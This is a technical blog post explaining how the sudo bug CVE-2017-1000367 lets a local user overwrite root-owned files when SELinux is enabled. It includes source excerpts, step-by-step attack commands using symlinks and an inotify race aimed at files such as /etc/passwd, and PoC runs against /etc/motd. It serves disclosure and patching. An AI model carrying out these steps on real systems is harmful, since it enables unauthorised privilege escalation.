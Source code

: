 +++
date = "2017-06-24T02:33:08+09:00"
title = "sudo vulnerability detail with SELinux(CVE-2017-1000367/CVE-2017-1000368)"
draft = false

+++

There's much misunderstanding about  "sudo" vulnerability(CVE-2017-1000367/1000368) that "SELinux caused some vuulnerable". On this blog, we will describe details about tha vulnerability and why it is depending on SELinux.

(Written by Kazuki Omo:ka-omo@sios.com).

## Vulnerability Details

You can easy to find the details of "what is the vulnerability" on Qualys Security Advisory(http://www.openwall.com/lists/oss-security/2017/05/30/16).

Actually, this vulnerability is completely comes from "sudo" source code.

As the description on above Qualys Security Advisory, main problem is "sudo behaivor when he get space-contained command".

When someone run sudo, sudo program will get user information(user_info: uid, cwd, etc.) by calling get_user_info(). And get_user_info() will call sudo_ttyname_dev()->sudo_ttyname_scan() for device "breadth-first scan". During the sudo_ttyname_scan(), it will obtain "tty number for that process running" by 7th field on "/proc/[pid]/stat".
 
  ex.  When you run mlayer on /dev/pts/0(tty) as pid=2778:
        
        jsossug@cent7enc:~$ cat /proc/2778/stat
        2778 (mplayer) S 2366 2778 2366 34816 2778 1077936128 10433 ....
        
  1.  From above output, "34816" is the dev number. 

  2.  "34816"(Dec) -> "0000 0000 0000 0000 1000 1000 0000 0000"(BN). Maigor number is "31-20 bit + 7-0 bit". Minor number is "19-8" bit. Then Major number is "000010001000 = 136", and Minor number is "0000 0000 0000 0000 = 0".
      .

  3.  For the confirmation, check "ls -l /dev/pts/0" output;

        jsossug@cent7enc:~$ ls -l /dev/pts/0
        crw--w---- 1 jsossug tty 136, 0 Jun 22 12:49 /dev/pts/0

  4.  From above output, you can see "136,0" which is "Major, Minor" number.
       

The problem is /proc/[pid]/stat file is "space-separated" output. So, if someone run "cmd" which contain space, sudo_ttyname_scan() will treat other field as tty name(this is mainly bug).

When Malicious attacker will run cmd with 6-spaces, he can easy to change tty number to any number. And if he can change that tty's symbolic link to file, and treat that file as stdout, he can overwrite that file whatever he wants.
For this sequence, attacker can use sudo's SELinux implementation.

## How to attack

Here is the steps for attacking;

  1.  Create /dev/shm/_tmp which is world-writable directory.

        jsossug@cent7enc:/dev/shm$ mkdir _tmp

  2.  Create symbolic link "/dev/shm/_tmp/tty" as non-existent pts "/dev/pts/57".

        jsossug@cent7enc:/dev/shm$ ln -s /dev/pts/57 /dev/shm/_tmp/tty
        jsossug@cent7enc:/dev/shm$ ls -l /dev/shm/_tmp
        lrwxrwxrwx. 1 jsossug jsossug 11  Jun 22 09:02 tty -> /dev/pts/57

  3.  "/dev/pts/57" device number will be "34873" as above explanation. So, create symbolic link "/dev/shm/_tmp/      34873" for "/usr/bin/sudo".

        [jsossug@cent7enc _tmp]$ ln -s /usr/bin/sudo "/dev/shm/_tmp/     34873 "
        [jsossug@cent7enc _tmp]$ ls -l
        lrwxrwxrwx. 1 jsossug jsossug 13  Jun 22 09:07      34873  -> /usr/bin/sudo

  4.  Use inotify for monitoring IN_OPEN on /dev/shm/_tmp directory. When /dev/shm/_tmp directory is accessed, change /dev/shm/_tmp/_tty to file which you want to overwrite(/etc/passwd, for example).

* * *

## So, how SELinux is involved on this vulnerability?
   
On above step 4, sudo program will think his tty is "/dev/shm/_tmp" which is linked to "/etc/passwd".

  5. If SELinux is enabled on the system**(doesn't matter Enforcing or Permissive)**, and "-r Role" option is specified , exec_setup() in sudo will call selinux_setup();

        bool
        exec_setup(struct command_details *details, const char *ptyname, int ptyfd)
        {
        --snip-- 
        #ifdef HAVE_SELINUX
            if (ISSET(details->flags, CD_RBAC_ENABLED)) {
                if (selinux_setup(details->selinux_role, details->selinux_type,
                    ptyname ? ptyname : user_details.tty, ptyfd) == -1)
                    goto done;
            }
        #endif

  6. selinux_setup() will call relabel_tty() for relabeling the tty;

        int
        selinux_setup(const char *role, const char *type, const char *ttyn,
            int ptyfd)
        {
        --snip--
            if (relabel_tty(ttyn, ptyfd) < 0) {
                warning(_("unable to setup tty context for %s"), se_state.new_context);
                goto done;
            }

  7. During the relabel_tty(), program will re-open ttyn which is now "/etc/passwd".
        --snip--
                /* Re-open tty to get new label and reset std{in,out,err} */
                close(se_state.ttyfd);
                se_state.ttyfd = open(ttyn, O_RDWR|O_NONBLOCK);
        --snip--

      And call dup2(se_state.ttyfd, ptyfd) for duplicating fd. 

        --snip--
                        for (fd = STDIN_FILENO; fd <= STDERR_FILENO; fd++) {
                            if (isatty(fd) && dup2(se_state.ttyfd, fd) == -1) {
        --snip--

      Then stdin/stdout/stderr will be set as /etc/passwd. So now the "cmd" stdout/stderr will be /etc/passwd, then you can overwrite /etc/passwd if you control the cmd output!!

* * *

## PoC with SELinux enabled.
PoC is available on the Internet. In here, we use /etc/motd(only root can write) for attack file. And use "/usr/bin/sum" for the command, then add /usr/bin/sum as permitted command for "sudovul(test user)".

        sudovul	ALL=(ALL)NOPASSWD:/usr/bin/sum

  1.  Confirm SELinux is Permissive mode;
        
        sudovul@cent7enc:~# getenforce
        Permissive
        

  2.  Run PoC on localhost as sudovul;
        
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
         /usr/bin/sum: unrecognized option '--
         HELLO
         WORLD
         '
         Try '/usr/bin/sum --help' for more information.

  3.  Change SELinux to Enforcing mode;
        
        sudovul@cent7enc:~# getenforce
        Enforcing
        

  2.  Clear /etc/motd and run PoC on localhost as sudovul;
        
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
         [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
         /usr/bin/sum: unrecognized option '--
         HELLO
         WORLD
         '
         Try '/usr/bin/sum --help' for more information.

So, we can overwrite /etc/motd in SELinux Permissive/Enforcing Mode.

* * *
## PoC with SELinux Disabled

  1. set SELinux as Disabled in /etc/selinux/config, and reboot.

        root@cent7enc:~# getenforce
        Disabled

  2. Clear /etc/motd, and run PoC code again. 

        [sudovul@cent7enc sudo-CVE-2017-1000367]$ ./sudopwn
        /usr/bin/sum: unrecognized option '--
        HELLO
        WORLD
        '
        Try '/usr/bin/sum --help' for more information.

  3. Check /etc/motd is not modified.

        [sudovul@cent7enc sudo-CVE-2017-1000367]$ cat /etc/motd
        [sudovul@cent7enc sudo-CVE-2017-1000367]$ 

* * *
## Conclusion

From above Vulnerability details and PoC, we can say;

1. The main vulnerability is coming from sudo.
2. SELinux is not exactlly used for the attack. Sudo will open tty and dup the fd for relabeling tty(malicious user can use it for attack).
3. This Vulnerablity condition is **SELinux Enabled(not only Enforcing, but also Permissive.)**. For fixing the problem, update sudo package. 
